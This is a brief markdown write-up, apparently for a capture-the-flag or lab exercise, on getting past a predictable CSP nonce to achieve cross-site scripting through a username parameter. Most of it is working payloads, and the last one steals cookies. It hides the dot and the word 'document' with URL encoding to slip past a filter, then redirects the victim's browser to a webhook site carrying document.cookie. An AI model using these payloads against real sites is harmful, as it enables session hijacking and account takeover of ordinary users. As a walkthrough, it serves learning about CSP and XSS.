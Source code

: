 # CSP-Nonce bypass

- first we have to find the csp bypass.
- look at the network traffic it will show the csp-nonce key.
- The key is in base64 which when decoded give the 10 charcater long **a** with the date.
- to bypass and create the xss we do this:
  
  ```js
  
  ?username=aaaaaaaaaa<script+nonce="<base64 encoded nonce>">alert(1)</script>
  
  ```
  
  
- The above payload will give us the xss.
- Now lets check for the cookies.

 ```js
  
  ?username=aaaaaaaaaa<script+nonce="<base64 encoded nonce>">alert(document.cookie)</script>
  
  ```
  
  - But unfortunately the **.** is blocked/filtered so we have to send to the webhook.
  - the payload for it will be:
  
 ```js
  
  ?username=aaaaaaaaaa<script+nonce="<base64 encoded nonce>">location=("//webhook"%2bdecodeURIComponent("%252E")%2b"site/<yoururl>?c="%2bwindow[decodeURIComponent("%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34")]["cookie"])</script>
  
  ```
   
